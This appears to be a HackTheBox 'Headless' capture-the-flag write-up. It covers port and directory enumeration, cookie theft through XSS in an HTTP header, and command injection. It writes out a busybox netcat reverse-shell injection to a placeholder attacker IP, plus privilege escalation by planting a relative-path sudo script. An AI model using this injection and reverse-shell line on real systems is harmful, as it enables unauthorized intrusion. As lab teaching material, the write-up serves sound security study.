

# HackTheBox - Headless

 

## Table of Contents

- [Enumeration](#Enumeration)
    - [Portscan](#Portscan)
    - [Webserver](#Webserver)
- [Foothold](#Foothold)
    - [Step 1 - XSS / Steal Cookie](#Step-1---XSS-/-Steal-Cookie)
    - [Step 2 - RCE](#Step-2---RCE)
    - [User Flag](#User-Flag)
- [Privilege Escalation](#Privilege-Escalation)
    - [System Enumeration](#System-Enumeration)
    - [Exploitation](#Exploitation)
    - [Root Flag](#Root-Flag)

 
 

## Enumeration

### Portscan

As always, it starts with the usual port scan

__Command:__ `nmap -p- -T4 -sV <IP>`

We have an SSH server on the standard port 22 and a web server on port 5000.

 

### Webserver

I looked at the web server and saw a page with a time counter.

If we press __"For questions"__, we continue to the __Contact Support__ / (`/support`).

And using __ffuf__ I found out that there is a __dashboard__ that we are not yet authorized to access.

__Command:__ `ffuf -u http://<IP>:5000/FUZZ -w raft-medium-directories.txt -ic`

What was also important to enumerate, the application works with a cookie!

 

## Foothold

### Step 1 -  XSS / Steal Cookie

At first I jumped on the cookie and somehow tried to manipulate the cookie for the __Dashboard__, because I discovered an anomaly there but got nowhere.

So I went back to __Contact Support__ where we can send something to support.

If we play around a bit and send a few malicious entries in the message field, we will eventually come across this warning:

We receive a message that our hacking attempt is being investigated and we are even told what information is being passed on to them.

All our HTTP header fields....

That sounds great!

I already had a premonition that we had cookies to steal here.

But we probably have to place our payload in an HTTP header.

So we first trigger the hacking-attemp alert in the POST-message parameter with a simple XSS payload and then place our actual payload to grab the cookies as an HTTP header field, for example as a user agent.

1. __Setup Simple HTTP-Server__

__Command:__ `python3 -m http.server`

2. __Send Payload__

__Payload:__ ``

3. __Retreive Cookie__

 

### Step 2 - RCE

I decoded the cookie value received and replaced it with the one previously set by the application and was now able to see and interact with the __Dashboard__.

I created such a report and intercepted it.

This step here went very quickly.

I quickly found a __POC__ which created a __RCE__ vulnerability by pinging myself.

 

### User Flag

A reverse shell was established with the payload `;busybox nc <ATTACKER_IP> 9001 -e /bin/bash`, got a reverse shell as user `dvir` and fetched the first flag.

 
 

## Privilege Escalation

### System Enumeration

There wasn't too much to enumerate.

A `sudo -l` takes us to the right way.

However, this is not the only thing I found.

For the user `dvir` I found a mail under `/var/mail/dvir` which gives us a pretty good hint.

 

### Exploitation

Let's take a look at the script...

The non-existent `initdb.sh` script is tried to be called without a complete path.

So I created an `initdb.sh` script myself with another busybox reverse shell one-liner.

Now I called the script with sudo and root and got another privileged reverse shell as root and got the final flag.

 

### Root Flag

